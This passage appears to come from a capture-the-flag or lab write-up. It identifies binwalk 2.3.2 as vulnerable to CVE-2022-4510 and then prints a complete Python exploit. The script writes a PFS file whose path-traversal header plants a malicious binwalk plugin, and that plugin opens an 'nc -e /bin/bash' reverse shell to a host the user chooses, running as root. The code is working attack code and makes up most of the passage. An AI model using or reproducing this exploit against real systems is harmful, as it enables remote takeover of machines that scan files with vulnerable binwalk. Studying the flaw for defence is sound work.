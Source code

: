Perfect, that's what we were looking for, the __2.3.2__ version of __binwalk__ is prone to the vulnerability [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510):

![4510](report/screenshot/2023-07-05_11-41.png)


In our context we can exploit this vulnerability by creating a PFS file, with the containing our malicious code.

Now we could literally have it execute any command like __root__, such as creating a new ssh key or starting a reverse shell, I opted for the latter which is more practical.

Below is the exploit for binwalk:


```python
ip = input("Insert destination IP Address: ")
port = input("Insert destination port: ")

header_pfs = bytes.fromhex(
    "5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e7"
    "7616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000"
    "0000000000000000000000000000000000000000000000000000000000000000000000000"
    "0000000000000000000000000000000000000000000000000000000000000000000003412"
    "0000a0000000c100002e"
)
reverse_shell = f"nc {ip} {port} -e /bin/bash 2>/dev/null &"
malware = [
    'import binwalk.core.plugin\n',
    'import os\n', 
    'class MaliciousExtractor(binwalk.core.plugin.Plugin):\n',
    '    def init(self):\n',
    f'        os.system("{reverse_shell}")\n',
]

with open("binwalk_exploit.pfs", "wb") as f:
    f.write(header_pfs)
    for line in malware:
        f.write(line.encode("utf-8"))

```